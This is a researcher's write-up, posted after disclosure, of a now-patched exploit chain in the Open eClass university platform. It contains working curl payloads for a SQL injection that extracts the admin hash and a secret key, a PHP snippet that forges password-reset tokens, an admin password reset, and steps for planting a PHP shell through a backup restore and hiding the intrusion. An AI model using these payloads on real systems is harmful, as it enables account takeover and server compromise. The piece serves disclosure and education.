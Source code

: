 ```yaml
---
title: "E-class < 3.6 code execution"
categories: Writeups Exploits
tags: sql injection eclass
---
```


I've been planning to do this write-up for a while now, but I decided to wait for at least 40 days after reporting this bug before disclosing it, as it concerns the e-class software used by most universities in Greece. The bug reported here has indeed been fixed on the same day that I reported it, so the first part of this shouldn't be possible anymore. I'm also glad to see my own university's e-class has been updated to the latest version, which is safe against this.  
The e-class software I'm referring to is **"open eclass"**, which can be found at <http://www.openeclass.org>. Their Github is [gunet/openeclass](https://github.com/gunet/openeclass).

## Part 1: SQL injection
This chain of exploits depends on this first exploit to work. This is the one that I created an issue for and that has since been fixed. The rest aren't that important.  
The bug resides in the "*attendance*" module of e-class. Modules can be enabled or disabled on each class separately, and that is checked on the current class you're at when you try to access the module. Therefore to take advantage of this bug you'd have to find a class with the *attendance* module enabled. You can see the relevant issue or the diff of the patch which makes it obvious what the SQL injection was. The issue is [issue #14](https://github.com/gunet/openeclass/issues/14) and the patch is commit [fce0882](https://github.com/gunet/openeclass/commit/fce08828cf82ab4afd4a21bee8d86f31526f240b).

The SQL injection entry point is the POST parameter `attendance_id` which is appended to two different SQL queries without sanitization. At first I thought I would have to write something in `attendance_id` that would lead into both lines being valid queries while injecting some SQL in one of them, which seemed a bit tricky. Thankfully that was not the case, and simply injecting some code in order for one of them to be valid resulted in me being able to retrieve whatever I want from the database. The other query would simply return null. (:

Below you can see a curl request that retrieves the admin's password:

```bash
$ curl -X POST \
  'http://localhost:8080/modules/attendance/?course=TMA101' \
  -H 'X-Requested-With: xmlhttprequest' \
  -b 'PHPSESSID=12p9fb8lf8fmth3f9nphstesa3' \
  -F assign_type=3 \
  -F 'attendance_id=11 UNION SELECT id FROM user) UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHERE lol.id = 1 AND 432235211 NOT IN (SELECT username FROM user'
<p>In file <b>/var/www/example.com/public_html/modules/attendance/index.php</b> on line <b>51</b> : <i>Unable to execute statement:"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHER' at line 2", sqlstate:"1064", errornum:"42000", 	statement:"SELECT uid AS id, givenname, surname FROM user, attendance_users                                         WHERE attendance_users.uid = user.id AND attendance_id = 11 UNION SELECT id FROM user) UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHERE lol.id = 1 AND 432235211 NOT IN (SELECT username FROM user ORDER BY surname", 	elapsed:1517578226.0001</i></p>[[{"id":"admin","surname":"$2a$08$rSgapF0VucQFwc0WsOmdy.7rybjOkxtsYUoG.zVMqpGM5wr3GCnkq","givenname":"3"}],null]%       
```

Ouch.

## Part 2: Doing something with the SQL injection

The passwords are encrypted, seemingly with bcrypt, which a quick pass through the source code confirms. There's no easy way to decrypt the admin password. Let's see what else we can pull from the database.

Another table of interest is the `config` table. Its fields are `key` and `value` and it contains specific tuples, inserted when e-class is installed. Most entries are unremarkable, however one stands out: the key is `code_key` and the value is 32 bytes, read from /dev/urandom and then base64 encoded. The function that generates the key is called `generate_secret_key`, so it sounds rather promising. We can easily retrieve its value, as before:

```bash
$ curl -X POST \
  'http://localhost:8080/modules/attendance/?course=TMA101' \
  -H 'X-Requested-With: xmlhttprequest' \
  -b 'PHPSESSID=12p9fb8lf8fmth3f9nphstesa3' \
  -F assign_type=3 \
  -F 'attendance_id=1 UNION SELECT id FROM user) UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.key = "code_key" AND 32235211 NOT IN (SELECT username FROM user'
<p>In file <b>/var/www/example.com/public_html/modules/attendance/index.php</b> on line <b>51</b> : <i>Unable to execute statement:"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.' at line 2", sqlstate:"1064", errornum:"42000", laterstatement:"SELECT uid AS id, givenname, surname FROM user, attendance_users                                         WHERE attendance_users.uid = user.id AND attendance_id = 1 UNION SELECT id FROM user) UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.key = "code_key" AND 32235211 NOT IN (SELECT username FROM user ORDER BY surname", laterelapsed:1518182515.0001</i></p>[[{"id":"code_key","surname":"ZTW+TNpoJr2FTViENRRMcLy+kW2sza\/PJyrb542mx1s=","givenname":"3"}],null]%)'")'
```

Let's see where this secret key is used.

## Part 3: Using the secret key

Besides the points where it's created, `code_key` is referenced in two other places in the code: the `token_generate` method and the corresponding `token_validate` method. The first one hashes a given string, optionally appending the timestamp, to generate an HMAC with the `code_key` as the key of the HMAC. The second one takes a message, a token and the number of seconds for which the token is valid if the message also contains a timestamp. It simply hashes the message again to confirm the HMAC is valid and checks if the time passed since the generation of the token is less that the allowed time, returning whether the token is valid.

There are 23 instances throughout the code of using `token_generate`, most are useless for proceeding further. As I expected though, it is also used to generate the token for resetting a user's password when they have forgotten it. The call that generates the token is:

```php
            $text .= $urlServer . "modules/auth/lostpass.php?u=$data[res_first_attempt]->id&h=" .
                    token_generate('password' . $data['res_first_attempt']->id, true);
```

We see that the token is generated with the string 'password1' where 1 is the user ID (1 in the case of the admin, the first user), using a timestamp.  
We can easily generate the token ourselves with the following PHP snippet:

```php
<?php
function token_generate($info, $need_timestamp = false) {
    if ($need_timestamp) {
        $ts = sprintf('%x-', time());
    } else {
        $ts = '';
    }
    $code_key = 'ZTW+TNpoJr2FTViENRRMcLy+kW2sza\/PJyrb542mx1s=';
    return $ts . hash_hmac('ripemd160', $ts . $info, $code_key);
}

echo(token_generate("password1", true) . "\n");
?>
```

This way we have a token for resetting the admin's password. (: Running this script now, I get the hash `5a8438bf-97dc07f1a8f8e15f3dbe52c3e9d4fe12ef86f576`.

This is different from clicking on the 'forgotten password' link and somehow retrieving the generated token, which is also sent to the admin's email. This generated token isn't stored anywhere on the database, which surprised me, as the first table I looked for in the database was a table that would store these tokens. Instead, the generated token is a signed piece of information that says, 'user x requested a token on this date'. So you can reset a user's password with such a token if you have the way to generate it, even if you never requested it!

We can request a password change as such:

```bash
$ curl -X POST \                                                                                                                                                                   
  'http://localhost:8080/modules/auth/lostpass.php' \      
  -F 'u=1' \                             
  -F 'h=5a8438bf-97dc07f1a8f8e15f3dbe52c3e9d4fe12ef86f576' \                                                                                                                   
  -F 'newpass=admin123' \
  -F 'newpass1=admin123' 
```

## Part 4: Achieving code execution

We can now login with our new credentials! Hopefully the real admin won't try to also login for a while. :)

The admin panel offers many interesting tools, however none allow you to explicitly execute PHP or SQL or anything of the sort. One of the tools, however, does allow you to upload a backup of a class, including all uploaded documents etc. The backup is essentially a zip archive that includes all files that the class contained, plus a bunch of serialized PHP objects for the class metadata.

It's pretty straightforward to add some PHP code for a shell, then. We can download a backup for a class, unzip it, change the `index.php` or add our own PHP file, and use the admin panel to restore the backup. You could even try to do something with the serialized objects, if you were feeling adventurous.

Yay, we now have a shell! You can also read the SQL database credentials now from the appropriate file. One of the first things you could do at this point would be to restore the old (encrypted) admin password which we conveniently retrieved in the first step, so the admin can use the normal credentials to login once again and doesn't notice anything. Other than that, anything is possible!

## Remarks

I was surprised by how secure e-class was overall other than this exploit, which took me some time to find. I had seen an older version of e-class as part of the University security course which was full of security holes, so it was nice to see that almost all of them have been patched as well as the response time once this one was found. There might have been a few other bugs but nothing that could be leveraged like this one, though surely someone with more PHP experience could find something that I didn't. I've been reading the deserialization engine is exploitable but I didn't notice any points a student can provide a serialized object. Of course, ditching PHP altogether would probably be best, but eh, that's easy for me to say.

